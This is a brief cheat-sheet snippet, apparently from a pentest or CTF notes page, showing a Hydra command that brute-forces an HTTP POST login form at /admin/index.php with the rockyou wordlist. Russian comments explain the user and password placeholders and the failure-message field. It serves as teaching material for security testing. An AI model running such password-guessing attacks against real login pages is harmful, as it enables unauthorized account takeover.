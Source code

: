 
```bash

hydra -l john -P /usr/share/wordlists/rockyou.txt $ip http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid." -V

```

`^USER^` - место подстановки пользователя
`^PASS^` - место подставной пароля 
`F=` - сообщение об ошибке